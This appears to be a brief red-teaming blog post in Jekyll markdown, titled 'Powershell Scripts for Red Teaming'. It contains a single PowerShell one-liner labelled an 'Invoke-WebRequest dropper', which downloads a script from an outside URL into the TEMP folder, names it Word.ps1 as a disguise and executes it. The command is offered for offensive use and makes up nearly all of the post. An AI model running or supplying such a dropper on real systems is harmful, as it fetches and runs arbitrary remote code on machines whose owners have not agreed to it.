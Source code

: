 ```yaml
---
layout: post
title:  "Powershell Scripts for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

---

### Invoke-WebRequest dropper

``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ```


